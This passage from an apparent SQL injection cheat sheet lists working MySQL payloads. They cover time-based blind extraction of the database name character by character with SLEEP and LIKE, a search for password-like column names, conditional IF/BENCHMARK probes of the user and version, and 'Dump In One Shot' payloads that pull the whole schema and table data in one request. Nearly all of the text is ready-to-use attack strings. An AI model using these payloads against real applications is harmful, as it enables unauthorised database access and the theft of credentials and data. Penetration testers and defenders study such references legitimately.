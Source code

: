 Extracting the length of the data.

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '%')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '___')# 
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '____')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '_____')#
```

Extracting the first character.

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'A____')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'S____')#
```

Extracting the second character.

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SA___')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SW___')#
```

Extracting the third character.

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SWA__')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SWB__')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SWI__')#
```

Extracting column_name.

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE (SELECT table_name FROM information_schema.columns WHERE table_schema=DATABASE() AND column_name LIKE '%pass%' LIMIT 0,1) LIKE '%')#
```


### Using Conditional Statements

```sql
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()), 1, 1))>=100, 1, SLEEP(3)) --
?id=1 OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
```


## MYSQL DIOS - Dump in One Shot

DIOS (Dump In One Shot) SQL Injection is an advanced technique that allows an attacker to extract entire database contents in a single, well-crafted SQL injection payload. This method leverages the ability to concatenate multiple pieces of data into a single result set, which is then returned in one response from the database.

```sql
(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)#
(select (@) from (select(@:=0x00),(select (@) from (db_data.table_data) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',column_data1,' ] > ',column_data2,' > ',0x7C))))a)#
```
